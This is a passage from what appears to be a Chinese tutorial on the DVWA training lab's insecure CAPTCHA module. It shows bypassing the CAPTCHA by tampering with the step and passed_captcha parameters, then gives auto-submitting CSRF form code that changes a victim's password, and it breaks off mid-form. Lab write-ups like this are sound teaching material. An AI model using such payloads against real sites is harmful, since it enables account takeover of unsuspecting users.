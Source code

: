 

**漏洞利用**



1.可以通过抓包，更改step参数，增加passed\_captcha参数，绕过验证码。



抓到的包：



[![1.png](http://image.3001.net/images/20161110/1478763222683.png!small)](http://image.3001.net/images/20161110/1478763222683.png)



更改之后的包：



[![1.png](http://image.3001.net/images/20161110/14787632525623.png!small)](http://image.3001.net/images/20161110/14787632525623.png)



更改密码成功：



[![1.png](http://image.3001.net/images/20161110/14787632811739.png!small)](http://image.3001.net/images/20161110/14787632811739.png)



2.依然可以实施CSRF攻击，攻击页面代码如下。



`<**html**>`



`<**body** onload="document.getElementById('transfer').submit()">`



  `<**div**>`



    `<**form** method="POST" id="transfer" action="[http://192.168.153.130/dvwa/vulnerabilities/captcha/](http://192.168.153.130/dvwa/vulnerabilities/captcha/)">`



`<**input** type="hidden" name="password_new" value="password">`



`<**input** type="hidden" name="password_conf" value="password">`



`<**input** type="hidden" name="passed_captcha" value="true">`



`<**input** type="hidden" name="step" value="2">`



`<**input** type="hidden" name="Change" value="Change">`
